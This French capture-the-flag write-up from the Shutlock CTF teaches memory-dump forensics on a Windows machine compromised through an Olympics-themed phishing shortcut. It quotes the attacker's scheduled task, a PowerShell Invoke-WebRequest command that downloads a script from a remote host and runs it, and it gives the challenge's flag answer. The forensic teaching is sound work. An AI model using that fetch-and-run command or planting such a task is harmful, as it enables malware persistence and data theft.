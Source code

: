 ## Description

### Enquête sur le phishing des JO : Retracer l'attaque Partie 1

![Illustration](../images/illu_Phishing.jpg)

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite avoir. 

Vous avez pour mission de réaliser l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié. 

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ? 

Pour résoudre ce challenge, vous devez répondre aux questions suivantes : 

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créée ?

3 - Quel script est lancé par cette scheduled task ?

#### Format du flag

**SHLK{'nom-fichier'-'scheduled task-'script'}**

#### Exemple

1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

**SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}**


#### SHA256

dump.raw : 757D150394158D68F33D25A46EF45D6874FE046A40DA7E97C3C0D33DF21EB7E1

dump.zip : 3C6DA179B87FA2DC0ACB988466428679FD6AF0905F004A56E8A968A83009E16D

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.

Il a été réalisé afin de permettre une introduction à l'analyse de timeline et de dump mémoire.

## Solve

### TL;DR

- Analyse du système de fichiers pour trouver le script malveillant
- Analyse des tasks créées

### Informations trouvées grâce à l'énoncé

- Mail de phishing

Fichiers donnés : 

- `dump.raw` : dump mémoire de l'ordinateur infecté (Windows 10)
- `ordi.png` : screenshot de l'ordinateur infecté

### Informations trouvées grâce à ordi.png

![Ordi.png](../Code_Source/Ordi.png)

`Ordi.png` est le screenshot de l'ordinateur infecté.
Cette capture d'écran nous permet de récolter des informations précieuses sur la suite de notre investigation.

- Notepad : instructions.txt
- Edge : ../Downloads/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf
- Autres applications de la taskbar

### Etude

- Utilisation de l'outil [MemProcFS](https://github.com/ufrisk/MemProcFS)

```bash
MemProcFS.exe -forensic 1 -device dump.raw
```

- **Quel est le nom du fichier malveillant ?**

L'accès initial étant un mail de phishing, on regarde son système de fichiers pour voir s'il n'a pas téléchargé le fichier malveillant, cette théorie est renforcé par le screenshot analysé plus haut.

On regarde ainsi dans MemProcFS le dossier `M:\forensic\ntfs\1\Users\clara\Downloads\`
On remarque qu'il a téléchargé *Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.zip*.

Ce zip extrait le fichier `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk` ayant pour type `raccourci`.

Première partie du flag : `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk`

- **Quel est le nom de la scheduled task créée ?**

On va ainsi s'intéresser aux tâches planifiées. Dans MemProcFS, on regarde le fichier `M:\forensic\csv\tasks.csv` qui répertorie ces tâches.

On voit la première `task` `IGotYourFileInfo` ayant pour ligne de commande `Invoke-WebRequest` et pour paramètre `-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1`.
Cette task parait malveillante tant bien dans son nom que dans ces paramètres.

On vérifie dans `M:\forensic\csv\timeline_tasks.csv` que la task a été créée.

Deuxième partie du flag : `IGotYourFileInfo`

- **Quel script est lancé par cette scheduled task ?**

On récupère dans `M:\forensic\csv\timeline_tasks.csv` le log de la création de la tâche planifiée :

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

Le script lancé est le paramètre de *-OutFile*

Troisième partie du flag : GetFilesInfo.ps1